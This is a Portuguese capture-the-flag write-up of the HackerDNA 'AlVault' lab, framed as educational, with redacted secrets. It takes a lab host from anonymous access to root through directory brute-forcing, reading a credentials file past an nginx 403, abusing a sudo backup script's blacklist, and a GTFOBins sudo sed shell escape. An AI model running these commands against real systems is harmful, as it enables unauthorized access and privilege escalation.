# AlVault — Write-up (HackerDNA)

> **De visitante anônimo a `root`:** encadeando um 403 que não protege nada e duas regras de `sudo` largas demais.

| | |
|---|---|
| **Plataforma** | [HackerDNA](https://hackerdna.com) |
| **Lab** | [AlVault — https://hackerdna.com/labs/alvault](https://hackerdna.com/labs/alvault) |
| **Dificuldade** | Medium |
| **Técnicas** | Enumeração web · bypass de controle de acesso · brute-force de diretório · privilege escalation (sudo misconfig + GTFOBins) |

> ⚠️ **Nota:** este write-up não contém valores de flag nem senhas. As credenciais e flags visíveis nos prints foram censuradas (`REDACTED`). O conteúdo tem foco educacional — metodologia, ferramentas e aprendizados. Todas as ações foram executadas em ambiente de laboratório autorizado.

---

## Sobre o lab

O AlVault é um único host Linux rodando um pequeno site corporativo da fictícia "Cybersecurity Solutions Inc." (a ironia é proposital). O desafio começa sem nenhuma credencial e termina com shell de `root`. No caminho, o que mais chama atenção não é nenhum exploit exótico — são **erros de configuração que parecem seguros à primeira vista**: um diretório "bloqueado" que na verdade continua legível, um script "desabilitado" que nunca foi apagado, e permissões de `sudo` concedidas com boa intenção que viram um atalho direto para o controle total da máquina.

## TL;DR — A cadeia de ataque

Cada elo isoladamente é pequeno. Juntos, levam de *nada* a *root*:

```
recon → robots.txt vaza /dev /backup /admin → wordlist maior acha file_search.php sem link
→ grep lê credentials.txt (que o 403 "protegia") → senha SSH = flag de usuário
→ sudo backup.py arquiva o home do admin como root → senha temporária do admin
→ su admin → sudo sed (GTFOBins) → shell root = flag de root
```

**Lição que amarra tudo:** segurança aplicada em *uma* camada (uma URL, um menu, uma blacklist) não protege o recurso embaixo dela. Dá pra contornar cada uma por um caminho lateral.

---

## 1. Reconhecimento

Todo ataque começa entendendo o que está exposto. O primeiro passo é um scan de portas para mapear a superfície de ataque.

```bash
nmap -sV -T4 <target-ip>
```

**Anatomia do comando:**
- `nmap` — scanner de portas e serviços, a ferramenta padrão de recon de rede.
- `-sV` — *service/version detection*: além de dizer se a porta está aberta, tenta identificar qual software e versão responde nela.
- `-T4` — *timing template* agressivo (escala de 0 a 5). Deixa o scan mais rápido, adequado para um lab.

Resultado: apenas duas portas abertas.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH
80/tcp open  http    nginx
```

**Leitura do resultado:** a porta **80 (HTTP/nginx)** é onde está toda a diversão web — é por ali que vou enumerar. Mas a porta **22 (SSH)** é igualmente importante no plano: ela é a *porta de retorno*. Em labs assim, o padrão é a enumeração web acabar vazando uma credencial, e o SSH é por onde essa credencial vira um shell de verdade.

Abrindo o site no navegador, caio numa página institucional vazia — nenhum link interessante, o que já indica que todo o conteúdo relevante está em caminhos *não linkados*.


*A home é uma fachada vazia. Todo o conteúdo explorável está escondido — nada aqui aponta para ele.*

---

## 2. Enumeração web — o robots.txt entrega o mapa

O primeiro lugar para olhar em qualquer alvo web é o `robots.txt`. A função dele é pedir aos buscadores que *não* indexem certos caminhos — ou seja, ele lista de bandeja exatamente os diretórios que o dono preferiria manter fora dos holofotes.

```bash
curl -s http://<target-ip>/robots.txt
```

**Anatomia do comando:**
- `curl` — cliente HTTP de linha de comando, usado para baixar o conteúdo de uma URL.
- `-s` — *silent*: esconde a barra de progresso e mensagens de erro, deixando só o conteúdo da resposta.

```
User-agent: *
Disallow: /dev/
Disallow: /backup/
Disallow: /admin/
```


*Três diretórios que o dono quis esconder dos buscadores — e, com isso, entregou ao atacante.*

> **Raciocínio:** o `robots.txt` é, na prática, uma **blacklist pública**. Na tentativa de esconder diretórios dos crawlers, o administrador documentou para qualquer visitante exatamente onde ficam as áreas sensíveis. É o oposto do efeito pretendido.

---

## 3. Sondando os três caminhos — nem todo bloqueio é igual

Com os três diretórios em mãos, o reflexo de iniciante é anotar "bloqueado" e seguir em frente. O reflexo certo é perguntar **como** cada um está bloqueado — porque bloqueios diferentes têm fraquezas diferentes.

```bash
curl -s -o /dev/null -w '%{http_code}\n' http://<target-ip>/admin/
curl -s -o /dev/null -w '%{http_code}\n' http://<target-ip>/backup/
```

**Anatomia do comando:**
- `-o /dev/null` — *output*: joga o corpo da resposta (o HTML) no "buraco negro" do Linux. Não quero ver a página, só o status.
- `-w '%{http_code}\n'` — *write-out*: imprime apenas o código HTTP da resposta, seguido de quebra de linha.

| Caminho | Código | O que significa | Explorável? |
|---|---|---|---|
| `/admin/` | `401` | Autenticação HTTP Basic (`.htpasswd`). Pede usuário e senha. | Só com credencial |
| `/backup/` | `403` | Regra `deny all` do nginx. O servidor *recusa* servir esta URL. | **Sim** — por fora do HTTP |
| `/dev/` | aberto | Área de desenvolvedor, acessível. | **Sim** — porta de entrada |


*`/admin/` → 401: barreira de credencial.*


*`/backup/` → 403: o nginx se recusa a servir a URL.*

> **A sacada central do lab:** um **403 parece mais forte** que um 401, mas para o atacante é mais frágil. O 401 é uma barreira de *credencial*. Já o 403 aqui é só uma regra do nginx sobre *servir aquela URL por HTTP* — e não diz absolutamente nada sobre o arquivo por baixo. Se qualquer outro componente da máquina (por exemplo, um script PHP) ler esse mesmo arquivo direto do disco, o nginx nem fica sabendo. **O `deny all` protege a porta da frente, não o cofre.**

---

## 4. O Developer Portal e a confissão no código-fonte

O `/dev/` está aberto e exibe um "Developer Portal" com duas ferramentas internas: **File Search Tool** e **File Upload Tool**.


*Área de desenvolvimento acessível, com duas ferramentas linkadas.*

Abri a File Search Tool (`search.php`). Qualquer busca retorna um teatral `TRY HARDER!` — a ferramenta é uma **isca**. Mas três detalhes nessa mesma tela valem mais que a busca em si:

- **Os placeholders dos campos** (o texto-exemplo cinza) revelam o caminho que a ferramenta foi escrita para ler: `/var/www/html/backup` e `credentials.txt`. Juntando: `/var/www/html/backup/credentials.txt` — exatamente o arquivo por trás do 403 do Passo 3.
- **O `TRY HARDER!`** confirma que esta versão é só fachada.
- **O comentário HTML no código-fonte** (visível com `Ctrl+U`) é a confissão que abre o próximo passo.


*Um print, três pistas: placeholders com o caminho do arquivo, o "TRY HARDER!" e, no DevTools, o comentário deixado pelo dev.*

O comentário, traduzido:

> *TODO: Remover a implementação antiga do arquivo de busca por causa dos achados da auditoria de segurança. Nota do Dave: desabilitei o acesso temporariamente, mas ainda não deletei o arquivo, porque talvez a gente precise consultar a implementação com grep para a versão nova.*

**Tradução prática:** existia uma ferramenta de busca *funcional*, baseada em `grep`, que de fato lê arquivos do disco. O Dave "desabilitou o acesso" — ou seja, só **tirou o link** do portal — mas **nunca apagou o arquivo**. Ele continua vivo em disco, com outro nome, sem nada apontando para ele. Basta descobrir esse nome.

---

## 5. Caçando o arquivo sem link (brute-force de diretório)

Como encontrar um arquivo que ninguém linka? Força bruta de nomes com o `gobuster`. Comecei pela wordlist comum, pequena:

```bash
gobuster dir -u http://<target-ip>/dev/ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt
```

**Anatomia do comando:**
- `gobuster dir` — o `gobuster` no modo *dir* (brute-force de diretórios e arquivos).
- `-u` — *URL* alvo (aqui, a pasta `/dev/`).
- `-w` — *wordlist*: o arquivo com os nomes a testar. Começo pela `common.txt` (~4,6 mil nomes).
- `-x php,txt` — *extensions*: testa cada palavra também com `.php` e `.txt` no fim.

Resultado: `index.html`, `notes.txt`, `search.php` e `upload.php` — ou seja, **só o que o portal já linkava**. A lista comum não achou nada novo.


*14.253 tentativas, zero descobertas novas. Mas isso é um resultado, não um beco sem saída.*

> **Raciocínio:** um arquivo que alguém escondeu **de propósito** dificilmente estaria entre os 4,6 mil nomes mais comuns. "Não achei nada" aqui não significa "não existe" — significa "preciso de uma lista maior". A resposta correta é **escalar a wordlist**, não desistir.

Troquei para a `directory-list-2.3-medium.txt` (~220 mil entradas):

```bash
gobuster dir -u http://<target-ip>/dev/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -x php,txt -t 20
```

**O que mudou:**
- `-w ...medium.txt` — agora a wordlist grande, ~50x maior.
- `-t 20` — *threads*: 20 requisições em paralelo, para compensar o tamanho da lista.

Em segundos, apareceu o alvo:

```
file_search.php      (Status: 200) [Size: 1310]
```


*Centenas de milhares de requisições depois, `file_search.php` aparece — a implementação aposentada que o Dave esqueceu de deletar.*

---

## 6. Lendo o arquivo "protegido" pelo 403 → flag de usuário

O `file_search.php` é a implementação real baseada em `grep`. Analisando seu comportamento, ele recebe um padrão de busca e executa, no servidor, algo equivalente a:

```php
// dentro do file_search.php
$allowed_file = "/var/www/html/backup/credentials.txt";
$pattern = escapeshellarg($_POST['pattern']);   // sanitizado
$command = "grep -i $pattern $allowed_file 2>&1";
$output  = shell_exec($command);
```

> **Por que NÃO é command injection:** o `escapeshellarg()` coloca o input entre aspas simples, neutralizando `;`, `|`, `$()` e outros metacaracteres de shell. Não há injeção de comando aqui. A fraqueza é outra, e mais sutil: **este script lê o `credentials.txt` direto do disco com `grep`, ignorando completamente o `deny all` do nginx**. É a concretização exata da sacada do Passo 3 — o 403 nunca protegeu o arquivo, só a URL.

Como o `grep -i` imprime toda linha que casa com o padrão, um termo amplo como `SSH` despeja as linhas de credencial:

```bash
curl -s -X POST http://<target-ip>/dev/file_search.php -d 'pattern=SSH'
```

**Anatomia do comando:**
- `-X POST` — define o método HTTP como *POST* (o formulário usa `method="post"`).
- `-d 'pattern=SSH'` — *data*: envia o campo `pattern` (o nome que o PHP espera) com o valor `SSH` como termo de busca.

A resposta devolve o usuário e a senha SSH (censurados abaixo):


*O "backup" era, na prática, um dump de credenciais de produção em texto puro — incluindo um login SSH.*

### Foothold via SSH

Como `developer` é uma conta Linux real, reutilizo a credencial para obter um shell interativo.

```bash
ssh developer@<target-ip>
```

**Anatomia do comando:**
- `ssh` — cliente de Secure Shell, abre uma sessão remota autenticada.
- `developer@<target-ip>` — *usuário@host*: com qual conta e em qual máquina autenticar.

> **Detalhe de operação:** na primeira conexão o SSH pede para confirmar o *fingerprint* do host (responde-se `yes`) e, ao digitar a senha, **nada aparece na tela** — nem asteriscos. É comportamento normal do terminal, não travamento.


*Prompt muda e surge o "Welcome to AlVault!" — estou dentro como `developer`.*

Confirmo onde estou e capturo a primeira flag — com `pwd` e `ls -la` antes, por disciplina de documentação:

```bash
pwd
ls -la
cat flag-user.txt
```

**Anatomia dos comandos:**
- `pwd` — *print working directory*: mostra em qual pasta estou.
- `ls` — lista o conteúdo do diretório. `-l` = formato longo (permissões, dono, tamanho, data); `-a` = inclui arquivos ocultos (os que começam com ponto).
- `cat` — exibe o conteúdo de um arquivo no terminal.


*Flag de usuário capturada (valor censurado).*

🚩 **Flag de usuário capturada.**

---

## 7. Escalonamento parte 1 — uma blacklist furada (developer → admin)

Primeira coisa pós-foothold: descobrir o que esta conta pode executar como *outro* usuário. O comando-chave é o `sudo -l`.

```bash
sudo -l
```

**Anatomia do comando:**
- `sudo -l` — *list*: lista as regras de `sudo` que se aplicam ao usuário atual (o que ele pode rodar, como quem, e se precisa de senha).

```
User developer may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/backup.py
```

**Como ler essa regra:**
- `(ALL)` — pode executar como **qualquer** usuário, inclusive `root`.
- `NOPASSWD` — sem pedir senha.
- `/usr/bin/python3 /opt/backup.py` — o comando exato permitido: rodar esse script como root.


*O `developer` pode rodar o `backup.py` como root, de graça. Vetor de escalonamento.*

**Regra de ouro:** nunca rodar como root um script que não li. Antes de qualquer coisa, inspecionei o código.

```bash
cat /opt/backup.py
```

```python
RESTRICTED_DIRS = ["/", "/root", "/etc", "/bin", "/sbin", "/usr",
                   "/var", "/lib", "/lib64", "/dev", "/proc",
                   "/sys", "/run", "/boot"]

def backup_files(directory):
    directory = os.path.abspath(directory)
    if directory in RESTRICTED_DIRS:
        print("...not allowed for security reasons.")
        return
    ...
    backup_path = "/tmp/backup.tar.gz"
    os.system(f"tar -czf {backup_path} {directory}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        directory = input("Enter directory to backup: ")
        backup_files(directory)
    else:
        backup_files(sys.argv[1])
```


*Código do `backup.py`. Note a existência de um usuário `admin` (`/home/admin`) além do `developer`.*

Três observações decisivas:

- **A linha vulnerável** é o `os.system("tar -czf ... {directory}")`: ele empacota com `tar` o diretório que eu escolher. Como invoco via `sudo`, esse `tar` roda **como root** — e root lê arquivos que o `developer` não lê.
- **A falha** está na `RESTRICTED_DIRS`: é uma **blacklist**. Todos os caminhos de sistema estão lá... mas `/home` **não está**. Posso arquivar o home de qualquer usuário — inclusive o do `admin`.
- **A pegadinha de execução**: parece possível passar o caminho como argumento (`sys.argv[1]`), mas a regra do sudoers é `/usr/bin/python3 /opt/backup.py` *sem argumentos*. Uma regra assim casa **apenas** com a linha exata; qualquer argumento extra fica de fora e o sudo recusa. A saída é rodar **sem argumento** e informar o diretório no `input()` (stdin), que o sudo não enxerga.

> **Blacklist vs. allow-list:** uma blacklist é uma lista do que é proibido — e está sempre incompleta, porque basta esquecer um item. Aqui esqueceram o `/home`. Uma *allow-list* (listar só o que é **permitido**) teria fechado esse buraco por construção.

Confirmei o alvo dentro do home do admin:

```bash
ls -la /home/admin/
```


*A pasta `admin_stuff` está em modo `700` (`drwx------`): ilegível para o `developer`. É exatamente o que o `tar`-como-root vai contornar.*

Executei o backup (sem argumento, informando o caminho no prompt):

```bash
sudo /usr/bin/python3 /opt/backup.py
# Enter directory to backup: /home/admin/admin_stuff
```


*Rodou sem pedir senha. O aviso `tar: removing leading '/'` é normal — o tar só está guardando os caminhos como relativos.*

Extraí o tarball em `/tmp` (como o próprio `developer`) e localizei o conteúdo:

```bash
tar -xzf /tmp/backup.tar.gz -C /tmp
ls -laR /tmp/home/admin/admin_stuff/
```

**Anatomia dos comandos:**
- `tar` — ferramenta de arquivamento. `-x` = extrair; `-z` = descomprimir gzip; `-f` = indica o arquivo alvo; `-C /tmp` = extrair *para dentro* de `/tmp`.
- `ls -laR` — o `-R` adiciona recursão: lista também o conteúdo das subpastas.


*Os arquivos extraídos saem com dono `developer` — agora legíveis. Dentro, uma pasta oculta `.secret` com `timepass.txt`.*

Li a nota:

```bash
cat /tmp/home/admin/admin_stuff/.secret/timepass.txt
```


*A nota vaza a senha temporária do `admin` em texto puro (valor censurado).*

> **Observação:** a ironia completa a cena — a mesma nota fala em "atualizar todos os sistemas com os últimos patches" e "novas políticas de segurança", e guarda a senha de admin em um `.txt`. Importante também: a blacklist *bloqueia* `/root` diretamente, então o mesmo truque não arquiva a flag de root. Este vetor leva só **lateralmente** até o admin; para chegar a root, falta um segundo escalonamento.

---

## 8. Escalonamento parte 2 — sudo sed via GTFOBins (admin → root)

Assumi a identidade do admin e repeti a enumeração de sudo:

```bash
su admin
whoami
sudo -l
```

**Anatomia dos comandos:**
- `su admin` — *switch user*: troca a sessão para o usuário `admin`.
- `whoami` — imprime qual usuário sou agora (confirmação).

```
User admin may run the following commands on this host:
    (ALL) NOPASSWD: /bin/sed
```


*Agora sou `admin` — e posso rodar `/bin/sed` como root, sem senha.*

> **Por que isso é um shell root:** o `sed` parece inofensivo (é um editor de fluxo de texto), mas tem um comando interno — o `e` — que **executa comandos de shell**. Ele está no [GTFOBins](https://gtfobins.github.io/gtfobins/sed/), o catálogo de binários "do bem" que podem ser abusados. Na prática, conceder `sudo /bin/sed` equivale a conceder um shell de root. O mesmo valeria para `awk`, `find`, `vi`, `tar` e vários outros.

Explorei o escape do GTFOBins:

```bash
sudo /bin/sed -n '1e exec /bin/sh 1>&0' /etc/hosts
```

**Anatomia do comando:**
- `sudo /bin/sed` — roda o `sed` como root (o que a regra permite).
- `-n` — modo silencioso: não imprime as linhas automaticamente.
- `'1e exec /bin/sh 1>&0'` — o coração do truque: `1` = "na linha 1"; `e <cmd>` = "execute este comando de shell"; `exec /bin/sh` = substitui o processo por um shell; `1>&0` = liga a saída (stdout) à entrada (stdin) do terminal, para o shell ficar *interativo*.
- `/etc/hosts` — um arquivo legível qualquer, só para dar ao `sed` um input válido para processar.


*O prompt muda para `#` — o sinal clássico de shell root.*

Confirmei o privilégio e capturei a flag final:

```bash
id
cat /root/flag-root.txt
```

**Anatomia do comando:**
- `id` — mostra o UID/GID e grupos do usuário atual. `uid=0(root)` é a prova de que sou root.

